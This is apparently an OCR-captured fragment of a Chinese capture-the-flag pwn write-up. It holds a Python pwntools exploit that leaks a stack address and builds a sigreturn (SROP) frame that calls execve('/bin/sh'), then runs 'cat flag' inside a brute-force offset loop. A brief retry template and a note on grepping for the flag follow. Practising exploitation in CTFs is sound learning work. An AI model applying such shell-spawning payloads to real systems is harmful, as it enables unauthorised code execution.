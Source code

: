 ```python

        p.sendline(payload1)

        stack_add = u64(p.recv(0x28)[-8::]) - off

        frame = SigreturnFrame()
        frame.rax = 0x3b
        frame.rdi = stack_add
        frame.rsi = 0
        frame.rdx = 0
        frame.rsp = stack_add
        frame.rip = system_add

        payload = b'/bin/sh\0' + cyclic(0x8)
        payload+= p64(rtframe)
        payload+= p64(system_add)
        payload+= bytes(frame)


        #p.sendline('a')
        #p.recvuntil('\0')
        p.sendline(payload)
        p.recvuntil('/bin/sh')
        p.sendline('cat flag')
        print(p.recvline())
        
        p.close()
    except BaseException as e:
        p.close()

    off+=0x8
    i+=1

```

核心模板:

```c
while True:
    try:
		// p = process()
		// pass
        p.sendline('cat flag')
        print(p.recvline())
        p.close()
    except BaseException as e:
        p.close()
    // pass

```

采用grep 获取输出包含flag的行就行
